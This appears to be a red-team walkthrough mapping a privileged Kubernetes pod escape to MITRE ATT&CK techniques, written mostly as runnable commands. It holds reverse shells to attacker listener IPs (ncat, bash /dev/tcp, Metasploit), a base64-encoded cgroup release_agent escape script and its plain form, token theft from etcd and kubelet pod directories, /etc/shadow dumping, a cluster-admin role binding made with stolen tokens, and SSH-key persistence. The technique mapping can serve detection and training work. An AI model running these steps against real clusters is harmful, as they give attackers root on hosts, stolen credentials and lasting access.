

# MITRE ATT&CK Mapping: Privileged Pod

---

## Attack Flow Overview



---

## Phase 1: Pod Creation & Access

### Step 1.1: Deploy privileged pod

**Command:**
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv/pod/priv-exec-pod.yaml
```

**MITRE Techniques:**
- **T1609** - Container Administration Command
  - Deploy container with privileged security context

**Pod Configuration:**
```yaml
spec:
  containers:
  - securityContext:
      privileged: true
```

---

### Step 1.2: Exec into the pod

**Command:**
```bash
kubectl exec -it priv-exec-pod -- bash
```

**MITRE Techniques:**
- **T1609** - Container Administration Command
  - Execute bash session inside privileged container

---

### Step 1.3: Alternative - Reverse shell method

**Commands:**
```bash
# Step 1: Set up listener
ncat --ssl -vlp 3116

# Step 2: Create pod with reverse shell
HOST=\"10.0.0.1\" PORT=\"3116\" envsubst < ./manifests/priv/pod/priv-revshell-pod.yaml | kubectl apply -f -

# Step 3: Catch the shell
```

**MITRE Techniques:**
- **T1095** - Non-Application Layer Protocol
  - Encrypted reverse shell connection using ncat --ssl

---

## Phase 2: Escape Method 1 - Mount Host Filesystem

### Step 2.1: Enumerate storage devices

**Command:**
```bash
fdisk -l
```

**MITRE Techniques:**
- **T1082** - System Information Discovery
  - Enumerate storage devices attached to the host

**Example Output:**
```
Disk /dev/sda: 100 GiB
Device       Start       End   Sectors  Size Type
/dev/sda1  8704000 209715166 201011167 95.9G Linux filesystem
```

---

### Step 2.2: Mount host filesystem into pod

**Commands:**
```bash
mkdir /host
mount /dev/sda1 /host/
```

**MITRE Techniques:**
- **T1611** - Escape to Host
  - Mount host's storage device to gain partial filesystem access from privileged container

> [!WARNING]
> This method provides LIMITED access to host filesystem. Some privilege escalation paths (like token access) may not work. Full host shell escape (Method 2) is more effective.

---

### Step 2.3: Search for etcd database (if on control-plane)

**Commands:**
```bash
# Find etcd data directory
ps -ef | grep etcd | sed s/\\-\\-/\\\\n/g | grep data-dir

# Read etcd database
strings /host/var/lib/etcd/member/snap/db | less

# Extract service account tokens from etcd
db=`strings /host/var/lib/etcd/member/snap/db`; for x in `echo \"$db\" | grep eyJhbGciOiJ`; do name=`echo \"$db\" | grep $x -B40 | grep registry`; echo $name \\| $x; echo; done
```

**MITRE Techniques:**
- **T1555.004** - Credentials from Password Stores: Cloud Secrets Management Stores
  - Extract Kubernetes secrets from etcd database on control-plane node

---

### Step 2.4: Hunt for kubeconfig files

**Commands:**
```bash
find /host -name kubeconfig 2>/dev/null
find /host -name .kube 2>/dev/null
grep -R \"current-context\" /host/home/ 2>/dev/null
grep -R \"current-context\" /host/root/ 2>/dev/null
```

**MITRE Techniques:**
- **T1552.001** - Unsecured Credentials: Credentials In Files
  - Search mounted filesystem for kubeconfig files with high-privilege credentials

---

## Phase 3: Escape Method 2 - Cgroup User Mode Helper Exploit

### Step 3.1: Create undock.sh exploit script

**Commands:**
```bash
# One-liner to create undock.sh
echo ZD1gZGlybmFtZSAkKGxzIC14IC9zKi9mcy9jKi8qL3IqIHxoZWFkIC1uMSlgCm1rZGlyIC1wICRkL3c7ZWNobyAxID4kZC93L25vdGlmeV9vbl9yZWxlYXNlCnQ9YHNlZCAtbiAncy8uKlxwZXJkaXI9XChbXixdKlwpLiovXDEvcCcgL2V0Yy9tdGFiYAp0b3VjaCAvbzsgZWNobyAkdC9jID4kZC9yZWxlYXNlX2FnZW50O2VjaG8gIiMhL2Jpbi9zaAokMSA+JHQvbyIgPi9jO2NobW9kICt4IC9jO3NoIC1jICJlY2hvIDAgPiRkL3cvY2dyb3VwLnByb2NzIjtzbGVlcCAxO2NhdCAvbwo= | base64 -d > undock.sh

# Or create manually:
cat > undock.sh <<'EOF'
#!/bin/bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\\perdir=\\([^,]*\\).*/\\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo \"#!/bin/sh
\$1 >\$t/o\" >/c;chmod +x /c;sh -c \"echo 0 >$d/w/cgroup.procs\";sleep 1;cat /o
EOF
```

**MITRE Techniques:**
- **T1609** - Container Administration Command
  - Create exploit script leveraging cgroup notify_on_release mechanism
- **T1059.004** - Command and Scripting Interpreter: Unix Shell
  - Bash script exploiting cgroup user mode helper for container escape

---

### Step 3.2: Execute commands on host using undock.sh

**Commands:**
```bash
# Test with simple command
sh undock.sh \"cat /etc/shadow\"

# Enumerate etcd
sh undock.sh \"ps -ef | grep etcd\"

# Find tokens
sh undock.sh \"find /var/lib/kubelet/pods/ -name token\"
```

**MITRE Techniques:**
- **T1611** - Escape to Host
  - Execute arbitrary commands on host with root privileges using cgroup exploit
- **T1003.008** - OS Credential Dumping: /etc/passwd and /etc/shadow
  - Dump password hashes from host filesystem

---

### Step 3.3: Create interactive shell escape script (escape.sh)

**Commands:**
```bash
# Get pod IP first
hostname -i

# Create escape.sh
cat > escape.sh <<'EOF'
#!/bin/bash
overlay=`sed -n 's/.*\\perdir=\\([^,]*\\).*/\\1/p' /etc/mtab`
mkdir /tmp/escape
mount -t cgroup -o blkio cgroup /tmp/escape
mkdir -p /tmp/escape/w
echo 1 > /tmp/escape/w/notify_on_release
echo \"$overlay/shell.sh\" > /tmp/escape/release_agent
sleep 3 && echo 0 >/tmp/escape/w/cgroup.procs &
nc -l -p 9001
EOF

# Create shell.sh with pod IP
cat > /shell.sh <<'EOF'
#!/bin/bash
/bin/bash -c \"/bin/bash -i >& /dev/tcp/[POD_IP]/9001 0>&1\"
EOF

chmod +x shell.sh escape.sh
```

**MITRE Techniques:**
- **T1611** - Escape to Host
  - Create reverse shell script that forces host to connect back to pod for interactive access

---

### Step 3.4: Execute escape.sh to get interactive root shell on host

**Command:**
```bash
./escape.sh
```

**MITRE Techniques:**
- **T1105** - Ingress Tool Transfer
  - Force host to execute callback script providing interactive shell
- **T1021** - Remote Services
  - Establish reverse connection from host to container for interactive access

**Result:**
```
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@k8s-worker:/# hostname
k8s-worker
```

---

### Step 3.5: Alternative - Use Metasploit docker_privileged_container_escape

**Commands:**
```bash
# Set up Metasploit handler
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST 10.0.0.127
msf6 exploit(multi/handler) > set port 4444
msf6 exploit(multi/handler) > run -jz

# From pod, spawn reverse shell to Metasploit
/bin/sh -i >& /dev/tcp/10.0.0.127/4444 0>&1

# In Metasploit, upgrade to host shell
msf6 > use exploit/linux/local/docker_privileged_container_escape
msf6 exploit(...) > set payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(...) > set session 1
msf6 exploit(...) > run
```

**MITRE Techniques:**
- **T1611** - Escape to Host
  - Use Metasploit module to automate cgroup escape and upgrade to host shell
- **T1068** - Exploitation for Privilege Escalation
  - Exploit privileged container configuration for host access

---

## Phase 4: Post-Escape Exploitation

### Step 4.1: Redeploy pod on control-plane node (if needed)

**Commands:**
```bash
# List nodes
kubectl get nodes

# Edit manifest to add nodeName
# nodeName: k8s-control-plane

kubectl apply -f manifests/priv/job/priv-exec-job.yaml
```

**MITRE Techniques:**
- **T1610** - Deploy Container
  - Redeploy container on control-plane node for etcd access

---

### Step 4.2: Steal all service account tokens using undock.sh + can-they.sh

**Commands:**
```bash
# From OUTSIDE pod (where kubectl is installed)
# First, drop undock.sh to pod
kubectl exec -it priv-exec-pod -- bash -c \"echo ZD1g... | base64 -d > /undock.sh\"

# Enumerate all tokens and test permissions
tokens=`kubectl exec -it priv-exec-pod -- sh undock.sh \"\"\"find /var/lib/kubelet/pods/ -name token -type l\"\"\"`; \\
for filename in $tokens; \\
do filename_clean=`echo $filename | tr -dc '[[:print:]]'`; \\
echo \"Token Location: $filename_clean\"; \\
tokena=`kubectl exec -it priv-exec-pod -- sh undock.sh \"cat $filename_clean\"`; \\
SERVER=`kubectl config view --minify --flatten -ojsonpath='{.clusters[].cluster.server}'`; \\
export KUBECONFIG=\"dummy\"; \\
kubectl --server=$SERVER --insecure-skip-tls-verify --token=$tokena auth can-i --list -n kube-system; \\
unset KUBECONFIG; \\
done
```

**MITRE Techniques:**
- **T1552.001** - Unsecured Credentials: Credentials In Files
  - Access service account tokens from all pods on node via undock.sh
- **T1613** - Container and Resource Discovery
  - Enumerate permissions of stolen tokens

---

### Step 4.3: Use high-privilege token for escalation

**Commands:**
```bash
# Export stolen token
export TOKEN=\"eyJhbGciOiJSUzI1NiIsImtp...\"

# Create cluster-admin binding
kubectl --token=$TOKEN create clusterrolebinding pwned --clusterrole=cluster-admin --serviceaccount=default:default

# Access secrets
kubectl --token=$TOKEN get secrets -n kube-system
```

**MITRE Techniques:**
- **T1078.004** - Valid Accounts: Cloud Accounts
  - Use stolen service account token for authentication
- **T1098.001** - Account Manipulation: Additional Cloud Credentials
  - Create clusterrolebinding to grant cluster-admin privileges

---

### Step 4.4: Add SSH key for persistent access

**Commands:**
```bash
# Generate SSH key
ssh-keygen -t rsa -b 4096

# Add to authorized_keys (from host shell)
echo \"ssh-rsa AAAA... attacker@host\" >> /root/.ssh/authorized_keys

# SSH to node
ssh root@node-ip
```

**MITRE Techniques:**
- **T1098.004** - Account Manipulation: SSH Authorized Keys
  - Add SSH public key for persistent access to compromised node

---

### Step 4.5: Crack password hashes

**Commands:**
```bash
# Dump shadow file (from host shell or via undock.sh)
cat /etc/shadow

# Crack offline with john or hashcat
```

**MITRE Techniques:**
- **T1003.008** - OS Credential Dumping: /etc/passwd and /etc/shadow
  - Extract password hashes from host
- **T1110.002** - Brute Force: Password Cracking
  - Crack password hashes offline

---

## Phase 5: General Pod Attacks

### Step 5.1: Standard pod exploitation techniques

**Procedures:**

Even with only privileged containers, standard pod attacks apply:

- Access cloud metadata service
- Query kubelet/kube-apiserver with anonymous-auth
- Hunt for vulnerable services
- Exploit known Kubernetes CVEs

**MITRE Techniques:**
- **T1552.005** - Unsecured Credentials: Cloud Instance Metadata API
  - Query cloud metadata for IAM credentials

**Reference:** See [nothing-allowed/README.md](../nothing-allowed) for details

---

## Cleanup

### Delete the pod

**Command:**
```bash
kubectl delete pod priv-exec-pod
```

**MITRE Techniques:**
- **T1070.004** - Indicator Removal: File Deletion
  - Remove malicious pod

> [!WARNING]
> If you made host-level modifications (SSH keys, created files, etc.), deleting the pod does NOT remove them. Manual cleanup required.

---

## Summary

### Key Attack Vectors

1. **Cgroup User Mode Helper Exploit** - Primary attack vector for full host access
   - **undock.sh**: Execute single commands on host
   - **escape.sh**: Interactive root shell on host
   - **Metasploit module**: Automated exploit framework
2. **Mount Host Filesystem** - Limited access, easier but less powerful
3. **Token Stealing** - Requires host access (via cgroup escape or limited via mount)

### Exploit Techniques Comparison

| Method | Access Level | Interactivity | Complexity | Token Access |
|--------|-------------|---------------|------------|--------------|
| undock.sh | Full root on host | Non-interactive | Low | Yes (via script) |
| escape.sh | Full root on host | Interactive shell | Medium | Yes (full access) |
| Metasploit | Full root on host | Meterpreter | Medium | Yes (full access) |
| Mount filesystem | Limited file access | Pod shell | Very low | No |

### Configuration Details

```yaml
spec:
  containers:
  - securityContext:
      privileged: true
```

**Privileged mode grants:**
- Access to all devices on host via `/dev`
- Ability to mount host storage devices
- All Linux capabilities
- Ability to manipulate cgroups for container escape
- Does NOT grant hostPID, hostNetwork, or hostIPC automatically

### Why Cgroup Escape Works

The exploit abuses:
1. `notify_on_release` cgroup feature
2. `release_agent` callback mechanism
3. Privileged containers can manipulate cgroups
4. Host executes the release_agent script as root
5. Attacker controls the script content

### References

- [Understanding Docker Container Escapes (Trail of Bits)](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)
- [A Compendium of Container Escapes (Black Hat 2019)](https://www.youtube.com/watch?v=BQlqita2D2s)
- [Felix Wilhelm's undock.sh Tweet](https://twitter.com/_fel1x/status/1151487051986087936)
- [Metasploit: docker_privileged_container_escape](https://www.rapid7.com/db/modules/exploit/linux/local/docker_privileged_container_escape/)
